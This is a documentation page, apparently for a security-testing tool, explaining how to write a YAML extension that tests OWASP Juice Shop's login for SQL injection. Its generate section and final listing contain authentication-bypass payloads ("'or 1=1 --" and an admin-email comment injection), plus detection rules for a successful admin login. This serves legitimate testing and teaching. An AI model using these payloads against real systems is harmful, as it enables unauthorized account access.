 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   Creation of Modifying Extension

The extension described in this document will modify an incoming baseline request to inject some payload into. These payloads could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.
  
##  Preparations

It is highly recommended to take these steps prior to creation of a FAST extension:
1.  [Investigate the behavior of the target application][link-app-examination] you are creating the extension for.
2.  [Read the principles of point construction for an extension][link-points].


##  Constructing the Extension

Create a file that describes the extension (e.g., `mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    * vulnerability header: `OWASP Juice Shop SQLi (mod extension)`
    * vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * vulnerability type: SQL injection
    * vulnerability threat level: high
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `collect` section, the [Collect phase][doc-collect-phase]**.
    
    The REST API `POST /rest/user/login` method is called upon trying to log in.
    
    There is no need to create test requests for each of the baseline requests for logging in that were sent to the API as the testing for vulnerabilities will be performed the same way for each piece of data passed in the POST request.
    
    Set up the extension in such a way that it executes once when the API receives the request for logging in. To do so, add the Collect phase with the uniqueness condition to the extension.

    The `/rest/user/login` request to the API for logging in comprises:

    1.  the first part of the path with the `rest` value,
    2.  the second part of the path with the `user` value, and
    3.  the `login` action method
    
    The corresponding points that refer to these values are the following:

    1.  `PATH_0_value` for the first part of the path
    2.  `PATH_1_value` for the second part of the path
    3.  `ACTION_NAME_value` for the `login` action method
    
    If you add the condition that the combination of these three elements must be unique, then the extension will only run for the first `/rest/user/login` baseline request to the API (such request will be treated as unique one, and all the following requests to the API for logging in will not be unique). 
    
    Add the corresponding `collect` section to the extension YAML file. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **The `match` section, the [Match phase][doc-match-phase]**.
    
    It is necessary to check whether the incoming baseline requests is really the request to the API for logging in, because the extension we are creating will exploit the vulnerabilities that the login form contains.
    
    Set up the extension so that it only runs if a baseline request is targeted to the following URI: `/rest/user/login`. Add the Match phase that checks whether the received request contains the required elements. This can be done using the following `match` section:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **The `modify` section, the [Modify phase][doc-modify-phase]**.
    
    Let us suggest that it is required to modify the baseline request to reach the following goals:
    * To clear the `Accept-Language` HTTP header value (this value is not required for vulnerability to be detected).
    * To replace the real values of the `email` and `password` parameters with the neutral `dummy` values.
    
    Add to the extension the following `modify` section that alters the request to meet the goals described above:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "Request elements description syntax"
        Because the request data that is contained in the JSON format is stored in `<key: value>` pairs, the point that refers to the `email` element value will look as shown above. The point that refers to the `password` element value has a similar structure.
        
        To see detailed information about constructing the points, proceed to this [link][link-points].
 
5.  **The `generate` section, the [Generate phase][doc-generate-phase]**.

    It is known that there are two payloads that should replace the value of the `email` parameter in the baseline request in order to exploit the SQL injection vulnerability in the target application:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Inserting the payload into the modified request"
        The payload will be inserted into the previously modified request, because the extension contains the `modify` section. Thus, after inserting the first payload into the `email` field, the test request data should look as follows:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Because any password can be used to log in successfully due to the chosen payloads, it is not necessary to insert the payload into the password field, which will have a `dummy` value after the Modify phase is applied.
    
        Add the `generate` section that will create the test requests that meet the requirements discussed above.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    * The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in the JSON format and should look the following way:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in the JSON format and should look the following way:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escaping the special symbols"
    Remember to escape the special symbols in the strings.

##  Extension File

Now the `mod-extension.yaml` file contains the complete set of the sections required for the extension to operate. The listing of the file's content is below:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Using Extension

For detailed information about how to use the created expression, read [this document][link-using-extension]. 